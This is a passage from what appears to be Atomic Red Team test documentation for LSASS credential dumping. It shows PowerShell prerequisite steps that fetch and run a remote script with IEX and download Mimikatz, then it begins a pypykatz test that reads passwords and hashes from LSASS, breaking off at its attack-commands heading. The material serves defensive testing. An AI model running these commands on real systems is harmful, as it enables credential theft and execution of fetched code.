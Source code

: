 


#### Dependencies:  Run with `powershell`!
##### Description: Mimikatz must exist on disk at specified location (#{mimikatz_exe})
##### Check Prereq Commands:
```powershell
if (Test-Path #{mimikatz_exe}) {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12
IEX (iwr "https://raw.githubusercontent.com/redcanaryco/invoke-atomicredteam/master/Public/Invoke-FetchFromZip.ps1" -UseBasicParsing) 
$releases = "https://api.github.com/repos/gentilkiwi/mimikatz/releases"
$zipUrl = (Invoke-WebRequest $releases | ConvertFrom-Json)[0].assets.browser_download_url | where-object { $_.endswith(".zip") }
$basePath = Split-Path #{mimikatz_exe} | Split-Path
Invoke-FetchFromZip $zipUrl "x64/mimikatz.exe" $basePath
```
##### Description: Lsass dump must exist at specified location (#{input_file})
##### Check Prereq Commands:
```powershell
cmd /c "if not exist #{input_file} (exit /b 1)"
```
##### Get Prereq Commands:
```powershell
Write-Host "Create the lsass dump manually using the steps in the previous test (Dump LSASS.exe Memory using Windows Task Manager)"
```




<br/>
<br/>

## Atomic Test #7 - LSASS read with pypykatz
Parses secrets hidden in the LSASS process with python. Similar to mimikatz's sekurlsa::

Python 3 must be installed, use the get_prereq_command's to meet the prerequisites for this test.

Successful execution of this test will display multiple usernames and passwords/hashes to the screen.

**Supported Platforms:** Windows


**auto_generated_guid:** c37bc535-5c62-4195-9cc3-0517673171d8






#### Attack Commands: Run with `command_prompt`!  Elevation Required (e.g. root or admin) 
